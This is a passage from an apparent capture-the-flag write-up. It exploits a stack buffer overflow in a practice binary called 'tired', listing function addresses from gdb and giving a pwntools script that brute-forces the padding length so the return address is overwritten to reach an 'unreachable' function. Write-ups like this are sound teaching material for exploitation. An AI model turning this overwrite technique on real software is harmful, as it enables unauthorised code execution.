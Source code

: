 ```term
0x08049080  ctime@plt
0x08049090  puts@plt
0x080490a0  exit@plt
0x080490b0  srand@plt
0x080490c0  strlen@plt
0x080490d0  __libc_start_main@plt
0x080490e0  rand@plt
0x080490f0  __isoc99_scanf@plt
0x08049100  _start
0x08049140  _dl_relocate_static_pie
0x08049150  __x86.get_pc_thunk.bx
0x08049160  deregister_tm_clones
0x080491a0  register_tm_clones
0x080491e0  __do_global_dtors_aux
0x08049210  frame_dummy
--Type <RET> for more, q to quit, c to continue without paging--
0x08049212  getRandomNumber
0x08049226  unreachable
0x080493cd  makeMoves
0x080496a9  main
0x080496fe  __x86.get_pc_thunk.ax
0x08049710  __libc_csu_init
0x08049770  __libc_csu_fini
0x08049774  _fini
(gdb)
```

As we can see, unreachable is positioned at address `0x08049226`. To do the buffer overflow, we will start by writing a bunch of A's to overflow the buffer. Then, after writing the exact amount so that we reach the point where the return address is stored, we will print out the address in reverse order (`b"\x26\x92\x04\x08\x01"`) in order to replace it. Note the reverse order, since the executable deals in little endian. Finally, we will enter a move of 8 in order to exit from `makeMoves()` and get to `unreachable()`.

In order to work out exactly how many A's to write, we can either examine the stack in gdb in order to calcualte the exact amount, or write a script to brute force every number of A's. For some reason, the stack method wasn't giving me accurate results, so I resorted to the brute force instead. Here's the script that I used:

```python
from pwn import *
import time

for i in range(32, 100, 4):
    print(i)
    p = process("./tired")

    # set the correct seed
    p.recvuntil(b"What should I do?\n")
    p.sendline(b"6")
    p.recvuntil(b"What is your lucky number?\n")
    p.sendline(b"5703817")
    p.recvuntil(b"What should I do?\n")
    p.sendline(b"7")

    # send the buffer overflow
    p.recvuntil(b"Uhh... Okay, let's hear your 'great' idea... :/\n")
    buffer = b"A"*i + b"\x26\x92\x04\x08"
    print(buffer)
    p.sendline(buffer)

    # exit makeMoves
    p.recvuntil(b"What should I do?\n")
    p.sendline(b"8")
```